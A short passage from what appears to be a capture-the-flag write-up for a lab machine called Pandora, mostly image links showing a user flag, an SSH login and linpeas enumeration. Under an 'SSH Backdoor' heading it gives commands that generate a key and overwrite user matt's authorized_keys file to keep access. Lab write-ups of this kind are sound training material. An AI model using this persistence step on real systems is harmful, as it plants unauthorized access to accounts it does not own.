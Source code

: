 ![userFlag.png](/assets/img/Pandora/userFlag.png)
#### SSH Backdoor 

```bash
ssh-keygen -t rsa
```

```bash
echo "<<CONTENTS_OF_id_rsa.pub>>" > /home/matt/.ssh/authorized_keys 
```

![SSHmatt.png](/assets/img/Pandora/SSHmatt.png)

### System enumeration as user matt 
#### Linpeas

![linpeas3.png](/assets/img/Pandora/linpeas3.png)
